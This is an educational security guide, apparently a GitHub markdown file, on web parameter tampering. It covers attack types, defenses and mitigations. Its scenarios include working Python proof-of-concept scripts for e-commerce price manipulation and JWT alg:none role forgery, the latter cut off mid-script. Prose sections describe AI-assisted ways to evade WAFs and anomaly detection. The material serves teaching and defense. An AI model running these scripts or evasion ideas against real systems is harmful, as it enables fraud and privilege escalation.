




# Parameter Tampering

> [!CAUTION]
> **Legal Disclaimer**: This document is for strictly educational and professional security research purposes. Unauthorized access to computer systems is illegal. The scripts provided are Proof-of-Concept (PoC) intended for use in controlled, lab environments. The author assumes no liability for misuse of this information.

## Table of Contents

1. [Overview Diagram](#overview-diagram)
2. [Introduction and Core Concepts](#introduction-and-core-concepts)
   - [Definition and How the Attack Works](#definition-and-how-the-attack-works)
   - [Impact and Attack Vectors](#impact-and-attack-vectors)
3. [Defense Principles](#defense-principles)
   - [Core Principles for Protection](#core-principles-for-protection)
   - [When and Where to Apply Defenses](#when-and-where-to-apply-defenses)
4. [Mitigation Strategies](#mitigation-strategies)
   - [Primary Mitigation Techniques](#primary-mitigation-techniques)
   - [Alternative Approaches](#alternative-approaches)
   - [Implementation Considerations](#implementation-considerations)
5. [Real-World Attack Scenarios](#real-world-attack-scenarios)
   - [Scenario 1: E-Commerce Price Manipulation](#scenario-1-e-commerce-price-manipulation)
   - [Scenario 2: Privilege Escalation via Role Parameter](#scenario-2-privilege-escalation-via-role-parameter)
   - [Scenario 3: Order Quantity Manipulation](#scenario-3-order-quantity-manipulation)
   - [Scenario 4: Hidden Form Field Tampering](#scenario-4-hidden-form-field-tampering)

---

## Overview Diagram

```mermaid
flowchart TB
    subgraph AttackTypes["Parameter Tampering Attack Types"]
        URLTampering["URL Parameter Tampering<br/>• Query string modification<br/>• Path parameter injection<br/>• Encoded value manipulation"]
        FormTampering["Form Field Tampering<br/>• Hidden field modification<br/>• Input validation bypass<br/>• POST data manipulation"]
        HeaderTampering["HTTP Header Tampering<br/>• Cookie manipulation<br/>• Custom header injection<br/>• Auth token modification"]
        JSONTampering["JSON/API Payload Tampering<br/>• Request body modification<br/>• Field injection<br/>• Type confusion attacks"]
    end

    subgraph AttackVectors["Attack Vectors & Entry Points"]
        PriceFields["Price/Cost Fields<br/>• Product prices<br/>• Discount amounts<br/>• Shipping costs"]
        QuantityFields["Quantity Fields<br/>• Order quantities<br/>• Stock levels<br/>• Cart items"]
        IDFields["Identifier Fields<br/>• User IDs<br/>• Order IDs<br/>• Session tokens"]
        RoleFields["Role/Permission Fields<br/>• User roles<br/>• Access levels<br/>• Feature flags"]
        StatusFields["Status Fields<br/>• Order status<br/>• Payment status<br/>• Account state"]
    end

    subgraph AttackContexts["Attack Contexts"]
        ClientSide["Client-Side Attacks<br/>• Browser manipulation<br/>• Proxy interception<br/>• JavaScript bypass"]
        APISecurity["API Security<br/>• REST endpoints<br/>• GraphQL mutations<br/>• Mobile app APIs"]
        SessionBased["Session-Based Attacks<br/>• Cookie tampering<br/>• Token manipulation<br/>• State modification"]
    end

    subgraph DefenseMechanisms["Defense Mechanisms"]
        ServerValidation["Server-Side Validation<br/>• Input sanitization<br/>• Type checking<br/>• Range validation"]
        Cryptography["Cryptographic Controls<br/>• HMAC signatures<br/>• Encrypted tokens<br/>• Integrity checks"]
        AccessControl["Access Control<br/>• Authorization checks<br/>• Ownership validation<br/>• Least privilege"]
        AuditLogging["Audit & Monitoring<br/>• Transaction logging<br/>• Anomaly detection<br/>• Alert systems"]
        SecureArchitecture["Secure Architecture<br/>• Server-side state<br/>• Immutable references<br/>• Trust boundaries"]
    end

    subgraph AttackImpact["Attack Impact"]
        FinancialFraud["Financial Fraud<br/>• Price manipulation<br/>• Free products<br/>• Discount abuse"]
        PrivilegeEscalation["Privilege Escalation<br/>• Admin access<br/>• Role elevation<br/>• Feature bypass"]
        DataManipulation["Data Manipulation<br/>• Record modification<br/>• State corruption<br/>• Inventory fraud"]
        BusinessLogicBypass["Business Logic Bypass<br/>• Workflow circumvention<br/>• Validation bypass<br/>• Policy violation"]
        UnauthorizedAccess["Unauthorized Access<br/>• Account takeover<br/>• IDOR exploitation<br/>• Cross-user access"]
    end

    %% Attack Vector to Types
    PriceFields --> URLTampering
    PriceFields --> FormTampering
    QuantityFields --> FormTampering
    QuantityFields --> JSONTampering
    IDFields --> URLTampering
    IDFields --> HeaderTampering
    RoleFields --> HeaderTampering
    RoleFields --> JSONTampering
    StatusFields --> FormTampering
    StatusFields --> JSONTampering

    %% Attack Types to Contexts
    URLTampering --> ClientSide
    URLTampering --> APISecurity
    FormTampering --> ClientSide
    HeaderTampering --> SessionBased
    HeaderTampering --> APISecurity
    JSONTampering --> APISecurity

    %% Contexts to Impact
    ClientSide --> FinancialFraud
    ClientSide --> BusinessLogicBypass
    APISecurity --> DataManipulation
    APISecurity --> UnauthorizedAccess
    SessionBased --> PrivilegeEscalation
    SessionBased --> UnauthorizedAccess

    %% Defense Connections
    ServerValidation --> URLTampering
    ServerValidation --> FormTampering
    Cryptography --> HeaderTampering
    Cryptography --> JSONTampering
    AccessControl --> PrivilegeEscalation
    AccessControl --> UnauthorizedAccess
    AuditLogging --> FinancialFraud
    AuditLogging --> DataManipulation
    SecureArchitecture --> BusinessLogicBypass

    %% Defense Mitigation
    ServerValidation -.->|Prevents| URLTampering
    ServerValidation -.->|Blocks| FormTampering
    Cryptography -.->|Protects| HeaderTampering
    Cryptography -.->|Secures| JSONTampering
    AccessControl -.->|Prevents| PrivilegeEscalation
    AccessControl -.->|Blocks| UnauthorizedAccess
    AuditLogging -.->|Detects| FinancialFraud
    AuditLogging -.->|Monitors| DataManipulation
    SecureArchitecture -.->|Eliminates| BusinessLogicBypass

    %% Styling
    classDef attackType fill:#ffcccc,stroke:#ff0000,stroke-width:3px,color:#000000
    classDef attackVector fill:#ffe6cc,stroke:#ff6600,stroke-width:2px,color:#000000
    classDef attackContext fill:#ccccff,stroke:#0000ff,stroke-width:2px,color:#000000
    classDef defense fill:#ccffcc,stroke:#00aa00,stroke-width:2px,color:#000000
    classDef impact fill:#ffccff,stroke:#aa00aa,stroke-width:2px,color:#000000

    class URLTampering,FormTampering,HeaderTampering,JSONTampering attackType
    class PriceFields,QuantityFields,IDFields,RoleFields,StatusFields attackVector
    class ClientSide,APISecurity,SessionBased attackContext
    class ServerValidation,Cryptography,AccessControl,AuditLogging,SecureArchitecture defense
    class FinancialFraud,PrivilegeEscalation,DataManipulation,BusinessLogicBypass,UnauthorizedAccess impact

    %% Subgraph styling
    style AttackTypes fill:#ffffff10,stroke:#ff0000,stroke-width:2px
    style AttackVectors fill:#ffffff10,stroke:#ff6600,stroke-width:2px
    style AttackContexts fill:#ffffff10,stroke:#0000ff,stroke-width:2px
    style DefenseMechanisms fill:#ffffff10,stroke:#00aa00,stroke-width:2px
    style AttackImpact fill:#ffffff10,stroke:#aa00aa,stroke-width:2px
```



### Legend

| Color | Border | Category | Description |
|-------|--------|----------|-------------|
| Light Red | Red (#ff0000) | Attack Types | Different methods of parameter tampering |
| Light Orange | Orange (#ff6600) | Attack Vectors | Entry points and vulnerable parameters |
| Light Blue | Blue (#0000ff) | Attack Contexts | Environments where attacks occur |
| Light Green | Green (#00aa00) | Defense Mechanisms | Protective controls and countermeasures |
| Light Purple | Purple (#aa00aa) | Attack Impact | Consequences of successful attacks |

### Key Relationships

- **Solid arrows (→)**: Show the natural flow from attack vectors through attack types and contexts to impacts
- **Dashed arrows (-.->)**: Indicate how defense mechanisms prevent or mitigate specific attack types and impacts
- **Attack Vectors feed into Attack Types**: Vulnerable parameters become targets for specific tampering techniques
- **Attack Types operate within Contexts**: Each tampering method manifests differently based on the application layer
- **Contexts lead to Impacts**: The environment determines the severity and type of damage
- **Defenses intercept at multiple points**: Effective security requires layered controls across the attack chain

---

## Introduction and Core Concepts

### Definition and How the Attack Works

**Parameter Tampering** is a web security vulnerability where an attacker manipulates parameters exchanged between client and server to modify application behavior, bypass security controls, or gain unauthorized access to data and functionality. This attack exploits the fundamental trust issue in client-server architectures where applications incorrectly trust client-supplied data.

The attack works through a straightforward process:

1. **Interception**: The attacker intercepts HTTP requests between the client and server using browser developer tools, proxy tools (like Burp Suite), or custom scripts
2. **Analysis**: The attacker identifies parameters that control business logic, pricing, permissions, or data access
3. **Modification**: Critical parameters are altered to achieve malicious objectives (changing prices, elevating privileges, accessing other users' data)
4. **Submission**: The modified request is sent to the server, which processes it without proper validation
5. **Exploitation**: The server accepts the tampered values, resulting in unauthorized actions or data exposure

> [!IMPORTANT]
> Parameter tampering is classified under **CWE-472 (External Control of Assumed-Immutable Web Parameter)** and is a critical component of **OWASP's Broken Access Control** category, consistently ranked as the #1 web application security risk.

### Impact and Attack Vectors

#### Business Impact

| Impact Category | Description | Severity |
|-----------------|-------------|----------|
| **Financial Loss** | Direct monetary theft through price/discount manipulation | Critical |
| **Data Breach** | Unauthorized access to sensitive user or business data | Critical |
| **Reputation Damage** | Loss of customer trust and brand value | High |
| **Regulatory Penalties** | GDPR, PCI-DSS, and other compliance violations | High |
| **Operational Disruption** | Corrupted data affecting business operations | Medium |

#### Primary Attack Vectors

1. **URL Query Parameters**: `?price=0.01&discount=100`
2. **Hidden Form Fields**: `<input type="hidden" name="user_role" value="admin">`
3. **HTTP Headers**: `Cookie: session=xyz; role=administrator`
4. **JSON/XML Request Bodies**: `{"user_id": 1337, "is_admin": true}`
5. **Path Parameters**: `/api/users/1337/delete` → `/api/users/1/delete`

---

## Defense Principles

### Core Principles for Protection

#### 1. Never Trust Client Input

All data originating from the client must be treated as potentially malicious. This includes:
- Form submissions (visible and hidden fields)
- URL parameters and path segments
- HTTP headers and cookies
- Request bodies (JSON, XML, multipart)

#### 2. Server-Side Authority

The server must be the single source of truth for all security-sensitive data:
- Prices must be retrieved from the database, not accepted from the client
- User roles and permissions must be derived from authenticated sessions
- Business logic must be enforced server-side

#### 3. Defense in Depth

Implement multiple layers of protection:
- Input validation at the perimeter
- Business logic validation in the application layer
- Cryptographic integrity checks for sensitive parameters
- Audit logging for forensic analysis

#### 4. Principle of Least Privilege

Users should only be able to access and modify resources they own or are explicitly authorized to manage.

### When and Where to Apply Defenses

| Application Layer | Defense Focus | Implementation Point |
|------------------|---------------|---------------------|
| **Network Edge** | WAF rules, rate limiting | API Gateway, Load Balancer |
| **Application Entry** | Input validation, sanitization | Controllers, Middleware |
| **Business Logic** | Authorization, ownership checks | Service Layer |
| **Data Access** | Parameterized queries, row-level security | Repository/DAO Layer |
| **Response** | Data filtering, output encoding | Serializers, View Layer |

---

## Mitigation Strategies

### Primary Mitigation Techniques

#### 1. Server-Side Validation and Sanitization

**Explanation**: All input parameters must undergo rigorous validation on the server, regardless of any client-side validation. This includes type checking, range validation, format verification, and business rule enforcement.

**Key Practices**:
- Validate data types (ensure numeric fields contain only numbers)
- Enforce acceptable ranges (quantity between 1-100)
- Use allowlists for enumerated values (roles, statuses)
- Sanitize strings to prevent injection attacks

#### 2. Cryptographic Integrity Protection

**Explanation**: Use HMAC signatures or encrypted tokens to protect parameters that must travel through the client. Any modification invalidates the signature, making tampering detectable.

**Key Practices**:
- Sign cart contents with server-side secrets
- Use JWT tokens with proper validation
- Implement anti-tampering checksums for critical workflows

#### 3. Server-Side State Management

**Explanation**: Store sensitive data server-side (in sessions or databases) rather than passing it through the client. Replace mutable values with immutable references.

**Key Practices**:
- Store cart contents in server-side sessions
- Use database lookups for prices at checkout
- Reference resources by secure, random identifiers

#### 4. Robust Authorization Checks

**Explanation**: Verify that the authenticated user has permission to access or modify the requested resource. Check ownership and roles for every sensitive operation.

**Key Practices**:
- Implement RBAC or ABAC authorization models
- Verify resource ownership before operations
- Log and alert on authorization failures

### Alternative Approaches

#### Indirect Object References

Instead of exposing direct database IDs, use mapping tables or encrypted references that cannot be predicted or enumerated.

#### Request Signing

Require clients to sign requests using a shared secret or certificate, enabling the server to verify request authenticity.

#### Rate Limiting and Anomaly Detection

Implement behavioral analysis to detect unusual patterns (e.g., rapid price changes, bulk parameter modifications).

### Implementation Considerations

> [!WARNING]
> **Common Pitfalls to Avoid**:
> - Relying solely on client-side validation
> - Trusting hidden form fields
> - Using predictable sequential IDs
> - Implementing authorization checks inconsistently
> - Failing to validate all input sources (headers, cookies, body)

---

## Real-World Attack Scenarios

### Scenario 1: E-Commerce Price Manipulation

An attacker discovers that an online store passes product prices in hidden form fields during checkout. By intercepting and modifying the request, they can purchase items at arbitrary prices.

#### Attack Flow

1. **Discovery**: Attacker browses the e-commerce site and adds items to cart
2. **Interception**: Using a proxy tool, the attacker captures the checkout request
3. **Analysis**: The request contains `price=99.99` as a form parameter
4. **Modification**: Attacker changes the price to `price=0.01`
5. **Submission**: The tampered request is sent to the server
6. **Exploitation**: The server processes the order at the manipulated price

#### Attack Workflow Diagram



#### Reconnaissance Tools and Weaponization Code

**Reconnaissance (Information Gathering)**

- **Tool**: **Burp Suite** using the **Proxy Intercept** feature
- **Why Critical**: Burp Suite's proxy intercept allows real-time capture and modification of HTTP requests. For price manipulation attacks, this feature is essential because it enables the attacker to pause the request mid-flight, inspect all parameters (including hidden form fields), and modify values before they reach the server. The repeater feature also allows testing multiple price values systematically.

- **Tool**: **Browser Developer Tools** using the **Network Tab and Elements Inspector**
- **Why Critical**: The Elements Inspector reveals hidden form fields containing price data, while the Network tab shows the exact parameter names and values being transmitted. This reconnaissance identifies which parameters control pricing logic.

**Weaponization (Python Script)**

```python
#!/usr/bin/env python3
"""
Parameter Tampering PoC: E-Commerce Price Manipulation
This script demonstrates how an attacker can automate price manipulation
attacks against vulnerable e-commerce checkout endpoints.
Educational purposes only - use in controlled lab environments.
"""

import requests  # HTTP library for making web requests
from bs4 import BeautifulSoup  # HTML parsing library
import re  # Regular expressions for pattern matching


def discover_price_parameters(session, product_url):
    """
    Reconnaissance function to discover price-related parameters.
    
    This function fetches the product page and analyzes the HTML to find
    hidden form fields and JavaScript variables containing price data.
    
    Args:
        session: requests.Session object maintaining cookies
        product_url: URL of the target product page
        
    Returns:
        dict: Discovered parameters with their values
    """
    # Send GET request to fetch the product page HTML
    response = session.get(product_url)
    
    # Parse the HTML content using BeautifulSoup
    soup = BeautifulSoup(response.text, 'html.parser')
    
    # Initialize dictionary to store discovered parameters
    discovered_params = {}
    
    # Search for hidden input fields - these often contain prices
    # Attackers look for fields named 'price', 'amount', 'cost', etc.
    hidden_fields = soup.find_all('input', type='hidden')
    
    for field in hidden_fields:
        # Extract the field name and value attributes
        name = field.get('name', '')
        value = field.get('value', '')
        
        # Check if the field name suggests it contains price data
        # Common naming patterns include price, amount, cost, total
        if any(keyword in name.lower() for keyword in ['price', 'amount', 'cost', 'total']):
            discovered_params[name] = value
            print(f"[+] Found price parameter: {name} = {value}")
    
    # Return all discovered price-related parameters
    return discovered_params


def execute_price_manipulation(session, checkout_url, original_params, malicious_price):
    """
    Weaponization function that executes the price manipulation attack.
    
    This function takes the discovered parameters, modifies the price value,
    and submits the tampered request to the checkout endpoint.
    
    Args:
        session: requests.Session object maintaining cookies
        checkout_url: URL of the checkout endpoint
        original_params: Dictionary of original form parameters
        malicious_price: The attacker-controlled price value
        
    Returns:
        requests.Response: The server's response to the tampered request
    """
    # Create a copy of parameters to avoid modifying the original
    tampered_params = original_params.copy()
    
    # Iterate through parameters and modify price-related ones
    for param_name in tampered_params:
        if 'price' in param_name.lower():
            # Store the original price for comparison
            original_price = tampered_params[param_name]
            
            # Replace with the attacker-controlled malicious price
            tampered_params[param_name] = malicious_price
            
            print(f"[!] Tampering: {param_name}")
            print(f"    Original: ${original_price}")
            print(f"    Malicious: ${malicious_price}")
    
    # Send the POST request with tampered parameters
    # This simulates the attacker submitting the modified checkout form
    response = session.post(checkout_url, data=tampered_params)
    
    # Check if the attack was successful by analyzing the response
    if response.status_code == 200:
        # Look for success indicators in the response
        if 'order confirmed' in response.text.lower():
            print(f"[+] SUCCESS: Order placed at manipulated price!")
        elif 'error' in response.text.lower():
            print(f"[-] FAILED: Server rejected the request")
    
    return response


def main():
    """
    Main orchestration function demonstrating the complete attack flow.
    """
    # Create a session to maintain cookies across requests
    session = requests.Session()
    
    # Target URLs - would be replaced with actual target in lab environment
    target_base = "http://vulnerable-shop.lab"
    product_url = f"{target_base}/product/expensive-item"
    checkout_url = f"{target_base}/checkout"
    
    print("[*] Starting price manipulation reconnaissance...")
    
    # Phase 1: Reconnaissance - Discover price parameters
    params = discover_price_parameters(session, product_url)
    
    # Phase 2: Weaponization - Execute the price manipulation
    if params:
        print("\n[*] Executing price manipulation attack...")
        # Attempt to purchase at $0.01
        execute_price_manipulation(session, checkout_url, params, "0.01")


if __name__ == "__main__":
    main()
```

#### AI-ML-Enhanced Attack Techniques

**1. Reinforcement Learning for Optimal Price Discovery**

Reinforcement Learning (RL) can dramatically enhance price manipulation attacks by training an agent to discover the optimal tampered values that maximize success while minimizing detection. The RL agent would model the e-commerce application as an environment where states represent different checkout stages and parameter combinations. Actions would include various price modifications (percentage reductions, absolute values, edge cases like negative numbers), and the reward function would prioritize successful transactions at minimal prices while penalizing detected attempts. Using algorithms like Deep Q-Networks (DQN) or Proximal Policy Optimization (PPO), the agent learns which price thresholds trigger validation failures versus successful exploitation. Over thousands of simulated interactions, the model discovers that certain price patterns (e.g., $0.99 vs $0.01) have higher success rates due to validation logic that only checks for zero or negative values. The agent also learns timing patterns, discovering that attacks during high-traffic periods are less likely to trigger anomaly detection. This approach transforms trial-and-error tampering into systematic, optimized exploitation.

**2. Natural Language Processing for Parameter Name Discovery**

Transformer-based NLP models like BERT or GPT can revolutionize the reconnaissance phase by intelligently identifying price-related parameters across diverse naming conventions and obfuscation schemes. Traditional pattern matching fails when developers use non-obvious names like `p_val`, `item_v`, or encoded representations to hide sensitive parameters. A fine-tuned language model trained on thousands of web application schemas can semantically understand that `prod_cost_usd` relates to pricing even without explicit keywords. The model processes HTML structure, JavaScript code, and API documentation to build a contextual understanding of parameter purposes. By analyzing the relationships between form fields (quantity × something = total), the model can infer which hidden parameters control pricing. This technique is particularly powerful against applications using minified or obfuscated JavaScript, where variable names like `a`, `b`, `c` require contextual analysis to understand. The model can also identify price parameters in non-English applications by understanding semantic relationships across languages.

**3. Generative Adversarial Networks for Payload Obfuscation**

GANs can be employed to generate obfuscated price values that bypass Web Application Firewalls (WAFs) and input validation rules while still being processed as valid low prices by the backend. The generator network creates modified price representations (Unicode number variants, scientific notation, locale-specific formats), while the discriminator learns to predict whether the payload will be blocked by security controls. Through adversarial training, the generator evolves payloads that appear legitimate to security tools but are interpreted as minimal values by the application. For example, the GAN might discover that `$0.01` is blocked but `0,01` (European format) or `1e-2` (scientific notation) bypasses validation while achieving the same result. The discriminator component can be trained on known WAF rule sets and validation patterns extracted from error messages. This approach automates the discovery of encoding tricks and format variations that enable successful tampering against hardened targets.

**4. Anomaly Detection Evasion Using Autoencoders**

Variational Autoencoders (VAEs) can model normal user checkout behavior and generate tampered requests that fall within expected behavioral patterns, evading anomaly-based detection systems. The autoencoder is trained on legitimate transaction data including request timing, parameter distributions, session patterns, and user behavioral signals. By encoding normal behavior into a latent space, the attacker can generate parameter tampering attempts that maintain statistical consistency with legitimate traffic. The decoder portion generates request sequences where the tampered price is embedded within a realistic browsing session—appropriate dwell times, normal navigation patterns, consistent user-agent strings, and typical checkout flows. This technique defeats behavioral analysis systems that flag abrupt checkout attempts or statistically unusual transactions. The VAE can also model seasonal variations in purchasing behavior, ensuring attacks blend with holiday shopping spikes or sale events. By maintaining behavioral authenticity while only modifying the target price parameter, the attack becomes nearly indistinguishable from legitimate transactions to automated detection systems.

#### Mitigation Application

To prevent this attack, the server must **never trust client-supplied prices**:

1. When processing the checkout, retrieve the product price from the database using the product ID
2. Validate that the client-supplied price matches the server-side value (or ignore client price entirely)
3. Implement cryptographic signing on cart contents to detect any modification
4. Log all price discrepancies for security monitoring

#### Mitigation Workflow Diagram



---


### Scenario 2: Privilege Escalation via Role Parameter

An attacker discovers that user roles are transmitted in JWT tokens or session cookies without proper server-side validation. By modifying the role parameter, they can elevate from a regular user to administrator.

#### Attack Flow

1. **Authentication**: Attacker logs in as a regular user
2. **Token Analysis**: Attacker inspects the JWT/session token structure
3. **Discovery**: The token contains a `role` field set to `user`
4. **Modification**: Attacker changes `role` to `admin`
5. **Re-encoding**: The modified token is base64 encoded (JWT) or re-signed
6. **Access**: Server accepts the modified token, granting admin privileges

#### Attack Workflow Diagram



#### Reconnaissance Tools and Weaponization Code

**Reconnaissance (Information Gathering)**

- **Tool**: **jwt.io** using the **Debugger** feature
- **Why Critical**: The JWT debugger at jwt.io allows attackers to decode JWT tokens without the secret key, revealing the payload structure including role claims.

- **Tool**: **Burp Suite** using the **JSON Web Token (JWT) extension**
- **Why Critical**: This extension automatically detects JWTs, decodes them, and allows modification for algorithm confusion attacks.

**Weaponization (Python Script)**

```python
#!/usr/bin/env python3
"""
Parameter Tampering PoC: JWT Role Manipulation
Demonstrates privilege escalation via JWT algorithm confusion.
Educational purposes only - use in controlled lab environments.
"""

import base64  # For base64 encoding/decoding JWT parts
import json    # For JSON payload manipulation
import requests  # HTTP library for web requests


def decode_jwt_payload(token):
    """
    Decode the payload portion of a JWT token.
    JWTs consist of three parts: header.payload.signature
    """
    parts = token.split('.')
    payload_b64 = parts[1]
    
    # Add padding for base64 decoding
    padding = 4 - len(payload_b64) % 4
    if padding != 4:
        payload_b64 += '=' * padding
    
    payload_json = base64.urlsafe_b64decode(payload_b64)
    payload = json.loads(payload_json)
    print(f"[+] Decoded JWT Payload: {json.dumps(payload, indent=4)}")
    return payload


def create_tampered_jwt(original_token, new_role):
    """
    Create a tampered JWT with modified role using alg:none attack.
    The algorithm confusion attack changes the JWT header to 'none'
    and removes the signature.
    """
    parts = original_token.split('.')
    
    # Decode and modify header
    header_b64 = parts[0]
    padding = 4 - len(header_b64) % 4
    if padding != 4:
        header_b64 += '=' * padding
    header = json.loads(base64.urlsafe_b64decode(header_b64))
    header['alg'] = 'none'  # Algorithm confusion attack
    
    # Decode and modify payload with elevated role
    payload = decode_jwt_payload(original_token)
    original_role = payload.get('role', 'unknown')
    payload['role'] = new_role
    print(f"[!] Tampering role: {original_role} -> {new_role}")
    
    # Re-encode header and payload
    new_header_b64 = base64.urlsafe_b64encode(
        json.dumps(header).encode()
    ).decode().rstrip('=')
    new_payload_b64 = base64.urlsafe_b64encode(
        json.dumps(payload).encode()
    ).decode().rstrip('=')
    
    # Create token with empty signature
